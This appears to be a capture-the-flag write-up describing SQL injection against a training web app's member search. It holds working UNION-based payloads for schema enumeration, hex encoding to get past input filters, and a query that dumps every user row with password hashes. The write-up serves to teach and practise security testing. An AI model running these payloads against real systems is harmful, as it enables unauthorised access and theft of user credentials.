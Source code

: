 # **Description:**

The challenge presented a web page with a "Members" section. Clicking on it led to a search functionality: "Search member by ID:" with an input field and a submit button.

## **Vulnerability:**

The application was vulnerable to SQL injection due to unsanitized user input in the ID search field.

## **Exploitation:**

#### `Error Detection:`
Entering 1' into the search field resulted in a MariaDB syntax error: "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near1 ''' at line 1". This confirmed the presence of SQL injection.   

#### `Column Count Determination:`
The query 1 union select null, null was used to determine the number of columns returned by the original query. The successful display of results indicated that the original query returned two columns.

#### `Database Name Retrieval:`
```
0 union select null, database()
```
Retrieved the database name:
Member_Sql_Injection

#### `Table Enumeration:`
```
0 union select null, group_concat(table_name) from information_schema.tables where table_schema=0x4d656d6265725f53716c5f496e6a656374696f6e
```
Retrieved the table names within the "Member_Sql_Injection" database. The hexadecimal representation 0x4d656d6265725f53716c5f496e6a656374696f6e was used to bypass potential input filters.
This query retrieved the table name:
users

#### `Column Enumeration:`
```
0 union select null, group_concat(column_name) from information_schema.columns where table_name=0x7573657273
```
Retrieved the column names from the "users" table. The table name, "users", was also converted to hex 0x7573657273.
user_id,first_name,last_name,town,country,planet,Commentaire,countersign

#### `Data Extraction:`
```
0 union select null, group_concat(user_id, 0x3a, first_name, 0x3a, last_name, 0x3a, town, 0x3a, country, 0x3a, planet, 0x3a, Commentaire, 0x3a, countersign) from users
```
Extracted all the data from the "users" table. The 0x3a is the hex value for the colon ":" character, which was used as a delimiter.
1:one:me:Paris :France:EARTH:Je pense, donc je suis:2b3366bcfd44f540e630d4dc2b9b06d9,2:two:me:Helsinki:Finlande:Earth:Aamu on iltaa viisaampi.:60e9032c586fb422e2c16dee6286cf10,3:three:me:Dublin:Irlande:Earth:Dublin is a city of stories and secrets.:e083b24a01c483437bcf4a9eea7c1b4d,5:Flag:GetThe:42:42:42:Decrypt this password -> then lower all the char. Sh256 on it and it's good !:5ff9d0165b4f92b14994e5c685cdce28

## **Flag Retrieval:**

The flag was obtained from the "countersign" column where the "first_name" was "Flag". The data contained the encrypted flag.
The encrypted string "5ff9d0165b4f92b14994e5c685cdce28" was decrypted, converted to lowercase, and then hashed with SHA256 to retrieve the final flag.

